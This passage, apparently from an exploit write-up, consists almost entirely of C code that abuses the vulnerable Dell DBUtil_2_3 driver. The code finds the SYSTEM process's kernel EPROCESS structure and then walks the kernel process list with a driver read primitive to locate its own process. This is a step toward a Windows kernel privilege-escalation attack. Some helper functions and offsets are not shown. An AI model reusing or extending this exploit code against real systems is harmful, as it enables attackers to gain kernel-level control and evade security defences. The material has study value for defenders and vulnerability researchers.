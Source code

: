 ```c

typedef struct _SYSTEM_HANDLE_INFORMATION
{
	ULONG NumberOfHandles;
	SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef ULONGLONG QWORD;
QWORD get_systemeproc() {
	ULONG returnedlength = 0;
	fnNtQuerySystemInformation NtQuerySystemInformation = (fnNtQuerySystemInformation)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "NtQuerySystemInformation");
	PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);

	NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnedlength);
	SYSTEM_HANDLE_TABLE_ENTRY_INFO HandleInfo = handleTableInformation->Handles[0];
	return (QWORD)HandleInfo.Object;
}
```

Then the loop to find the eprocess for our PID.
```c
int main(int arc, char* argv[]) {

	int result = RequirePrivilege(TEXT("SeDebugPrivilege"));
	if (result != 0) {
		printf("Priv failed with error %d\n", result);
		return -1;
	}

	hDriver = CreateFileA("\\\\.\\DBUtil_2_3", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	QWORD system_eproc = get_systemeproc();
	printf("[+] System eproc value: 0x%llx\n", system_eproc);
	QWORD current_eproc = system_eproc;
	DWORD program_pid = GetCurrentProcessId();

	DWORD current_pid = 0;

	while (TRUE) {
		printf("[+] Reading value from: 0x%llX\n", current_eproc + (QWORD)ActiveProcessLinks_offset);
		current_eproc = DellRead(current_eproc + (QWORD)ActiveProcessLinks_offset);
		printf("[+] ForwardLinked value: 0x%llX\n", current_eproc);
		current_eproc -= ActiveProcessLinks_offset;

		printf("[+] New EProcess Value: 0x%llX\n", current_eproc);

		current_pid = DellRead(current_eproc + UniqueProcessId_offset);
		if (current_pid == program_pid) {
			printf("[+] Found program pid\n");
			break; // use the current_eproc value
		}
	}
	printf("[+] EProcess Value for running process: 0x%llX\n", current_eproc);
	getchar();

}
```
